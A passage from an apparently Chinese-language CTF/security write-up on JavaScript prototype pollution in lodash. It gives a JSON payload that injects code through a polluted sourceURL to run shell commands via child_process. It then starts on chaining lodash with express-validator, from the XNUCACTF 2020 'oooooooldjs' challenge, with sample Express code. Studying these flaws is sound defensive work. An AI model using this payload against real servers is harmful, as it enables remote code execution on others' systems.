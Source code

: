 `options.sourceURL`没有赋值，取空字符串，我们给所有`Object`对象插入一个`sourceURL`属性，就会被拼入`return Function`的第二个参数中造成rce

payload

```json
{"__proto__":{"sourceURL":"\u000areturn e=>{for(var a in {}){delete Object.prototype[a];}return global.process.mainModule.consturctor._load('child_process').execSync('ls /').toString()}\u000a//"}}
```

### 借助其它库扩大攻击面

#### express-validator + lodash

- lodash<4.17.17

来源于一道CTF题（而且被抄了2次还），在本身lodash存在原型污染的情况下结合其它库扩大攻击面

##### [XNUCACTF 2020 Qualifier]oooooooldjs

这个题有三个考点，还是肥肠的难顶的

- 原型链污染：lodash.set + express-validator
- 异步bug
- jQuery RCE gadget

###### express-validator的具体实现

我们以一段代码作为示例

```js
const express = require('express')
const app = express()
const port = 1337

app.use(express.json())
app.use(express.urlencoded({
    extended: true
}))

const {
    body,
    validationResult
} = require('express-validator')

middlewares = [
    body('*').trim()
]

app.use(middlewares)
app.post("/user", (req, res)=>{
    const foo = "helloworld"
    return res.status(200).send(foo)
})

app.listen(port,()=>{
    console.log(`server listening on ${port}`)
})

```
